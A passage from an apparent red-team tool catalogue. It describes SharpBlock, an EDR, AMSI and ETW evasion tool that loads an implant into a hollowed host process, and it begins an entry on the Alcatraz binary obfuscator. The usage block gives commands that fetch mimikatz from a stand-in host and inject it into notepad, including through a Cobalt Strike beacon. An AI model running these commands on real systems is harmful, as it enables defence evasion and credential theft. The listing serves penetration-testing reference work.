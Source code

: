 ### [🔙](#tool-list)[SharpBlock](https://github.com/CCob/SharpBlock)

A method of bypassing EDR's active projection DLL's by preventing entry point execution.

**Features:**

- Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
- Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
- Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike).
- Implanted process is hidden to help evade scanners looking for hollowed processes.
- Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
- Patchless ETW bypass.
- Blocks NtProtectVirtualMemory invocation when callee is within the range of a blocked DLL's address space.

**Install:** 

Use [Visual Studio 2019 Community Edition](https://visualstudio.microsoft.com/vs/community/) to compile the SharpBlock binary.

Open the SharpBlock [project .sln](https://github.com/CCob/SharpBlock), choose "Release", and build.

**Usage:** 

```bash
# Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee

# Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```

Nice PenTestPartners blog post [here](https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/).

![image](https://user-images.githubusercontent.com/100603074/210983524-d6ea4255-7c47-45bb-8b13-9f6240735b0e.png)

*Image used from https://youtu.be/0W9wkamknfM*

### [🔙](#tool-list)[Alcatraz](https://github.com/weak1337/Alcatraz)

Alcatraz is a GUI x64 binary obfuscator that is able to obfuscate various different pe files including:

- .exe
- .dll
- .sys
